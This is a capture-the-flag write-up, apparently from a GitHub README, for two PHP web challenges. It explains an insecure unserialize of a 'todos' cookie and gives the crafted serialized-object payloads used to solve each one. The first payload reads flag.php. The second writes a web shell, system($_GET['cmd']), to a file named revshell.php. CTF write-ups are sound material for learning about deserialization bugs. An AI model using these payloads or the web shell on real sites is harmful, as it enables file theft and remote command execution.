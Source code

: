 # free-as-in-beer ![c](https://img.shields.io/badge/solved-success)
### Analysis
Let's analyze the source code given to us in the page. We can clearly see that there is an unserialization of a cookie (looks sooooo bad) when the first 32 chars of the cookie named "todos" are equal to the md5 hash of the last 32 chars.
That is, the PHP code reads the input from the user with a GET, calculates the hash and concatenates it with the raw input, and then sets it as a cookie.

Moreover, we can notice a really interesting object called X with a magic methods __toString() in it (looks even worse).

Knowing that we can try to bypass the hash condition, crafting our cookie, and modify the parameters of the X object in order to read a specific file (we know that the flag is in flag.php).

### Exploit
This is the final paylod to insert as *todos* cookie: *760463360e4919ca238d1566fc26661fa:1:{i:0%3bO:16:"GPLSourceBloater":1:{s:6:"source"%3bs:8:"flag.php"%3b}}*.

Note: we must pass the md5 hash, than serialization of an array (because todos is a list of todo) and then our object.
![Alt text](./cookie_burp.PNG?raw=true "Title")

**flag{This_flAg_1s_really_fr33_a5_in_PhP}**

# 1024 ![c](https://img.shields.io/badge/solved-success)
### Analysis
### Exploit
```
O:7:"Ranking":3:{s:7:"ranking";s:34:"<?php echo system($_GET['cmd']);?>";s:7:"changed";b:1;s:4:"path";s:20:"./games/revshell.php";}
```
![Alt text](./result_1024.PNG?raw=true "Title")

**flag{never_deserialize_user_input!}**
